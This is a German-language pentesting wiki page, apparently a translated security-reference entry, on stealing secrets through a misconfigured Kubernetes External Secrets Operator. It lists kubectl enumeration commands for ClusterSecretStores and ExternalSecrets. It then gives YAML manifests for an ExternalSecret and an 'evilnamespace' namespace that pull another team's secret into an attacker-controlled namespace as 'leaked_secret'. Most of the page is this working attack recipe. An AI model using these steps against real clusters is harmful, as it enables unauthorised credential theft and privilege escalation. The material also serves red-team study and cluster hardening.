 # External Secret Operator

**Der ursprüngliche Autor dieser Seite ist** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Diese Seite gibt einige Hinweise, wie Sie Geheimnisse von einem falsch konfigurierten ESO oder einer Anwendung stehlen können, die ESO verwendet, um ihre Geheimnisse zu synchronisieren.

## Haftungsausschluss

Die unten gezeigte Technik kann nur funktionieren, wenn bestimmte Umstände erfüllt sind. Zum Beispiel hängt es von den Anforderungen ab, die erforderlich sind, um ein Geheimnis in einem Namespace zu synchronisieren, den Sie besitzen / kompromittiert haben. Sie müssen es selbst herausfinden.

## Voraussetzungen

1. Ein Fuß in einem Kubernetes / OpenShift-Cluster mit Administratorrechten in einem Namespace
2. Lesezugriff auf mindestens ExternalSecret auf Cluster-Ebene
3. Herausfinden, ob erforderliche Labels / Annotationen oder Gruppenmitgliedschaften benötigt werden, die es ESO ermöglichen, Ihr Geheimnis zu synchronisieren. Wenn Sie Glück haben, können Sie beliebige definierte Geheimnisse frei stehlen.

### Informationen über vorhandene ClusterSecretStore sammeln

Vorausgesetzt, Sie haben einen Benutzer, der genügend Rechte hat, um diese Ressource zu lesen; beginnen Sie damit, zunächst vorhandene _**ClusterSecretStores**_ aufzulisten.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret Aufzählung

Angenommen, Sie haben einen ClusterSecretStore mit dem Namen _**mystore**_ gefunden. Fahren Sie fort, indem Sie das zugehörige externalsecret auflisten.
```sh
kubectl get externalsecret -A | grep mystore
```
_Diese Ressource ist namespaced, also fügen Sie die Option -A hinzu, um in allen Namespaces zu suchen, es sei denn, Sie wissen bereits, nach welchem Namespace Sie suchen._

Sie sollten eine Liste der definierten externalsecrets erhalten. Angenommen, Sie haben ein externalsecret-Objekt namens _**mysecret**_ gefunden, das im Namespace _**mynamespace**_ definiert und verwendet wird. Sammeln Sie ein wenig mehr Informationen darüber, welche Art von Geheimnis es enthält.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Die Teile zusammenfügen

Von hier aus können Sie den Namen eines oder mehrerer Geheimnisse (wie im Secret-Ressourcen definiert) erhalten. Sie erhalten eine Ausgabe ähnlich wie:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Bisher haben wir:

- Name eines ClusterSecretStore
- Name eines ExternalSecret
- Name des Secrets

Jetzt, da wir alles haben, was wir brauchen, können Sie ein ExternalSecret erstellen (und gegebenenfalls einen neuen Namespace patchen/erstellen, um die Voraussetzungen zu erfüllen, die erforderlich sind, um Ihr neues Secret synchronisiert zu bekommen):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Nach ein paar Minuten, wenn die Synchronisationsbedingungen erfüllt sind, sollten Sie in der Lage sein, das geleakte Geheimnis in Ihrem Namespace zu sehen.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referenzen

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
